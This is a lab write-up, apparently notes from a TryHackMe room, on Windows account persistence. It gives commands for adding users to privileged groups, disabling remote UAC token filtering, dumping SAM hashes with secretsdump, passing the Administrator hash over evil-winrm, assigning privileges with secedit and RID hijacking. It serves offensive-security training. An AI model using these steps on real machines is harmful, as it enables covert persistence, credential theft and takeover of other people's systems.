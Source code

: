 
## Modifying unprivileged account


### Add a normal user `thmuser0` to administrator group

```
C:/> net localgroup administrators thmuser0 /add
```

### Add to Backup Operators group
- Add `Backup Operators` group, to allow them to read/write files or registry keys
	- It has following privileges assigned
	-  **SeBackupPrivilege:** The user can read any file in the system, ignoring any DACL in place.
	- **SeRestorePrivilege:** The user can write any file in the system, ignoring any DACL in place.
```
C:/> net localgroup "Backup Operators" thmuser1 /add
```

-  To RDP or WinRM back to the machine, we add user to the `Remote Desktop Users` (RDP) or `Remote Management Users` (WinRM) groups
```
C:/> net localgroup "Remote Management Users" thmuser1 /add
```

- Now connect to thmuser1 via winrm
```
$ evil-winrm -i 10.10.126.181 -u thmuser1 -p Password321
```

- When connecting remotely, user in group `Backup Operators` don't have access to all the files because of  UAC, `LocalAccountTokenFilterPolicy`, it strips any local account of its administrative privileges when logging in remotely.
- Disable token filter policy by running this command

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

- Now connecting back using winrm and download the SAM hashes, 
```
$ evil-winrm -i 10.10.126.181 -u thmuser1 -p Password321

*Evil-WinRM* PS C:\> reg save hklm\system system.bak
The operation completed successfully. 

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
The operation completed successfully. 

*Evil-WinRM* PS C:\> download system.bak
Info: Download successful! 

*Evil-WinRM* PS C:\> download sam.bak
Info: Download successful!

```

- Dump password hash from the SAM and system hives:
```
$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation [*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426 [*] Dumping local SAM hashes (uid:rid:lmhash:nthash) Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9657e898170eb98b25861ef9cafe5bd6::: thmuser1:1011:aad3b435b51404eeaad3b435b51404ee:e41fd391af74400faa4ff75868c93cce::: [*] Cleaning up...
```

- Use the password Hash to login as administrator
```
evil-winrm -i 10.10.126.181 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
```

### Give privileges to normal user
- Instead of updating the group membership, we can assign privileges to the user
- Complete list of privileges: https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants 

```powershell
# Export current config
c:/> secedit /export /cfg config.inf

```

- To Assigning same privileges as Backup Operators:
- open the file and add our user to the lines in the configuration regarding the `SeBackupPrivilege` and `SeRestorePrivilege`. Line will look something like this:
```
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,thmuser2
...
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,thmuser2
```


-  convert the .inf file into a .sdb file which is then used to load the configuration back into the system:

```powershell
# Convert the inf file to sdb file
c:/> secedit /import /cfg config.inf /db config.sdb

# Use the sdb file to update the privileges
c:/> secedit /configure /db config.sdb /cfg config.inf
```

- The user still can't login to remote session via WinRM . One way was to add them to `Remote Management Users`, other way is to change the security descriptor associated with the WinRM service to allow thmuser2 to connect

```powershell
# open the configuration window for WinRM's security descriptor
PS c:/> Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

- Add the normal user in the GUI settings and select `Full controll` in the permissions section.
- Disable token filter policy by running this command

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

- Now connecting to back using thmuser2 will give the same privileges as `Backup Operators`

### RID Hijacking

- Change Registry keys to make OS think we are the administrators
- Relative ID (RID) is a simple numeric identifier representing the user across the system
- When a user logs on, the LSASS process gets its RID from the SAM registry hive and creates an access token associated with that RID
- We can tamper with the registry value and make windows assign an Administrator access token to an unprivileged user by associating the same RID to both accounts.
- In any Windows system, the default Administrator account is assigned the **RID = 500**, and regular users usually have **RID >= 1000**.
- use the following command to find the assigned RIDs for any user:
```
# The RID is the last bit of the SID
c:\> wmic useraccount get name,sid

Name SID
Administrator S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount S-1-5-21-1966530601-3185510712-10604624-503
Guest S-1-5-21-1966530601-3185510712-10604624-501
thmuser1 S-1-5-21-1966530601-3185510712-10604624-1008
thmuser2 S-1-5-21-1966530601-3185510712-10604624-1009
thmuser3 S-1-5-21-1966530601-3185510712-10604624-1010
```

- To assign the RID=500 to thmuser3, we need to access the SAM using Regedit.
- The SAM is restricted to the SYSTEM account only, so even the Administrator won't be able to edit it. 
- To run Regedit as SYSTEM, we will use `psexec`, it may need to be copied/downloaded if not available in the system.
```
C:\> PsExec64.exe -i -s regedit
```
- In registry editor, go to `HKLM\SAM\SAM\Domains\Account\Users\`
- All the users are identified by their RID values in hex, hence for `1010` user will be `0x352`
- Under the corresponding key, there will be a value called `F`, which holds the user's effective RID at position `0x30`:
- replace those two bytes with the RID of Administrator in hex (500 = 0x01F4), in little endian (F401)
- The next time thmuser3 logs in, LSASS will associate it with the same RID as Administrator and grant them the same privileges.
